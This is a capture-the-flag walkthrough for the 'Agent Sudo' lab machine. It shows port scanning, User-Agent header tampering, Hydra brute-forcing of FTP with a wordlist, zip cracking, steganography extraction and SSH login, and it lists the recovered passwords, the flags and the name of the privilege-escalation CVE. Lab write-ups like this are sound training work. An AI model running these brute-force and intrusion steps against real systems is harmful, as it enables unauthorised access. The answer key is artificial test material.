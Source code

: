 # Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

# Task 1
Deploy the machine

# Task 2 Enumerate
How many open ports?
Ans:  3
```console 
$ sudo nmap 10.10.66.70
Starting Nmap 7.80 ( https://nmap.org ) at 2023-09-30 20:53 PST
Nmap scan report for 10.10.66.70
Host is up (0.24s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.26 seconds

```

How you redirect yourself to a secret page?
```
Dear agents,  
  
Use your own **codename** as user-agent to access the site.  
  
From,  
Agent R
```
the codename is the hint
Ans: user-agent

What is agent name?
I used burpsuite to intercept the connection in http://<ip_address>
In proxy tab, click intercept then let the intercept on then open browser. Paste the url into the browser. Change the header user-agent into agent name, then forward and intercept off. The name of the agent looks like like agent R, so i tried to change to A and B nothing happened. But in C we have a result
```
Attention chris,  
  
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!  
  
From,  
Agent R
```
Ans: chris

# Task 3 Hash cracking and brute-force
Done enumerate the machine? Time to brute your way out.

FTP password
research how to hydra or hydra -h. 
```
Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```
we have ftp, so we use ftp example
``` console
ydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.41.72
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-02 21:25:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.41.72:21/
[STATUS] 240.00 tries/min, 240 tries in 00:01h, 14344159 to do in 996:08h, 16 active
[21][ftp] host: 10.10.41.72   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-02 21:26:57
```
the password is crystal
Ans: crystal

Zip file password
now login to ftp.
``` console
ftp <ip_address>
Connected to 10.10.41.72.
220 (vsFTPd 3.0.3)
Name (10.10.41.72:yoky): chris
331 Please specify the password.
Password:
```
enter the username chris and the password crystal
the ftp server has 3 files, download it to our machine.
```console
get To_agentJ.txt
get cute-alien.jpg
get cutie.png
```
The text file giving us more info.
```console
$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C

```
by using binwalk to both png files. The cutie has hidden zip file, so extract it by using binwalk -e. Now its extracted, redirect to the extracted directory. it has txt and zip file. The txt file is empty

Zip file password
use john the ripper
Ans: alien

use 7z to unzip the 8702.zip file
`7z e 8702.zip `
it will overwrite the txt.file
```
$ cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
decode QXJlYTUx from base64.
Ans: Area51


Now, extract the embedded data in jpg file
```
$ steghide --extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
```
```
$ cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Who is the other agent (in full name)?
Ans: James

SSH password
Ans: hackerrules!

# Task 4 Capture the user flag

What is the user flag?
ssh into user and password we found.
```
ssh james@10.10.23.238
```
```
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```
Flag: b03d975e8c92a7c04146cfa7a5a313c7

What is the incident of the photo called?

download the jpg file from ssh to your machine, then reverse image to find the incident name
Ans: roswell alien autopsy

# Task 5 Privilege escalation

CVE number for the escalation
Ans: CVE-2019-14287

What is the root flag?
Ans: b53a02f55b57d4439e3341834d70c062s

(Bonus) Who is Agent R?
Ans: Deskel